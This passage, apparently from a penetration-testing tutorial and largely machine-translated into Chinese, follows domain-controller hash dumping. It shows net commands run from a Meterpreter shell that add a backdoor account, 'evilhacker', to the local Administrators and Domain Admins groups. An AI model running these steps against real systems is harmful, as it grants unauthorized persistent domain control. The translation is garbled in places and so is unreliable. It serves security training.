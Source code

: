 破解域控制器的有趣之处在于，您只需破解一个哈希文件即可获得本地管理员和域管理员。我们有所有域帐户的哈希值，甚至还有域上机器帐户的哈希值。

微软将域帐户与本地帐户无缝集成，真是太好了。将 LDAP 服务帐户存储在它们自己的加密存储中会更安全。

请确保将这些内容复制/粘贴到您的项目注释中，以便以后脱机破解：

![Exploring the inner network](../Images/image00751.jpeg)

## 滥用 Windows 网络使用命令

破解密码非常耗时。这就是为什么在具有高资源级别的系统上使该进程离线通常是一个好主意。你不必等到开膛手约翰破解了所有密码。我们有系统访问权限，所以我们只需设置一个知道密码的用户帐户。我们将使用 Windows**NET 使用**命令在 shell 中执行此操作。

### 从命令行添加 Windows 用户

这种鲜为人知的添加用户的方法可以让您作为 Windows 系统管理员的生活更轻松。通过 GUI 界面添加用户速度较慢，但这是大多数 Windows 管理员知道如何执行此任务的唯一方法：

1.  在 MeterMeter 提示符内，如我们之前所做的，键入：

    ```
    shell

    ```

2.  Run the following commands after getting a shell on the system:

    ```
    net user evilhacker lamepassword /add

    ```

    请注意，我们从 SMB 服务收到一个错误，我们的密码不够强，因此让我们再试一次。毕竟，一个好的密码会让我们远离。正当

    ```
    net user evilhacker LamePassword1 /add

    ```

    成功

3.  Make a Local Administrator group for her:

    ```
    net localgroup "Administrators" evilhacker /add

    ```

    成功

4.  Add her to the Domain Administrator group:

    ```
    net group "Domain Admins" evilhacker /add

    ```

    成功

5.  要退出 Windows 外壳，请键入：

    ```
    exit
